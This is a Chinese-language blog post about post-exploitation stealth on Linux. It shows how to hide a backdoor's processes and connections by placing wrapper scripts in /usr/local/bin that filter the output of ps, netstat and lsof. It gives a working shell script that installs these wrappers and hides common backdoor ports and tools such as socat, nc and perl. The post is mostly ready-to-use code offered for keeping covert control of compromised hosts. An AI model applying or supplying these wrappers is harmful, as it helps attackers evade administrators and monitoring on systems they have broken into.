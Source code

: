 ```yaml
---
layout: post
title: 后门隐藏之进程隐藏技巧（ps、netstat、top、lsof）
date: 2018-10-15 23:30:00
tags: 后门 backdoor 进程
categories: hack
author: PythonPig
---
```

* content
{:toc}

### \#0x00 写在前面
最近工作忙成狗，写些与技术没什么关系的文档，没办法，谁让咱还指着工资吃饭呢。  

在后渗透过程中对需要长期控制的目标一般会留一个后门，后门的隐蔽性当然值得我们去思考一下，今天记录一下之前用到的一个隐藏后门进程的小技巧。今天讲的不是什么高大上的技术，只是偶尔会用一下的小技巧，当然不是改pid为0，也不是修改系统调用。  

今天说的隐藏进程其实有点不够准确，应该是使命令ps/netstat/top/lsof这几个命令不显示我们的后门进程而已，当然我们也不是替换/劫持这几个命令，只是包装一下这几个命令。  




### \#0x01 PS命令不显示后门进程
其实很简单，我们包装一下ps这个命令，如在ubuntu（Ubuntu 14.04.5）中，ps路径为/bin/ps，如下图

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-1.jpeg?raw=true)

我们需要做的就是在创建一个/usr/local/bin/ps文件，写入如下内容  

```
#!/bin/bash
/bin/ps $@ | grep -Ev 'backdoor name|backdoor server address|backdoor server port'
```
赋予执行权限  
chmod +x /usr/local/bin/ps  

执行which ps后的效果  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-2.jpeg?raw=true)

就是这么简单就搞定了，执行ps的时候就不会有我们的backdoor信息出现了。我们自己使用时，用/bin/ps就OK了。

### \#0x02 netstat、top、lsof
这几个命令同上，很简单，这里不一一介绍了。  

每个命令都手动去改太麻烦，好在有人已经写好了脚本（参见本文引用），一条命令就搞定这几个命令的伪装了（没有支持top命令）……  

### \#0x03 脚本中的语法

参考文献的脚本是这样写的   
```
#!/bin/bash

#ps
#------------------------
touch /usr/local/bin/ps

cat <<EOF >> /usr/local/bin/ps	
#!/bin/bash
/bin/ps \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/ps

#netstat
#------------------------
touch /usr/local/bin/netstat

cat <<EOF >> /usr/local/bin/netstat
#!/bin/bash
/bin/netstat \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/netstat

#lsof
#------------------------
touch /usr/local/bin/lsof

cat <<EOF >> /usr/local/bin/lsof
#!/bin/bash
/usr/bin/lsof \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/lsof
```
其实比较简单，主要有两点需要注意（参见本文引用）   
1、linux shell 的here document 用法 (cat << EOF)，些多行内容到文件  
2、Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数  

#### \#0x04 参考
* [iamckn/backdoors](https://github.com/iamckn/backdoors)
* [linux shell 的here document 用法 (cat << EOF)](https://my.oschina.net/u/1032146/blog/146941)
* [cat EOF追加与覆盖](http://www.361way.com/cat-eof-cover-append/4298.html)
* [Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数](https://blog.csdn.net/u011341352/article/details/53215180)
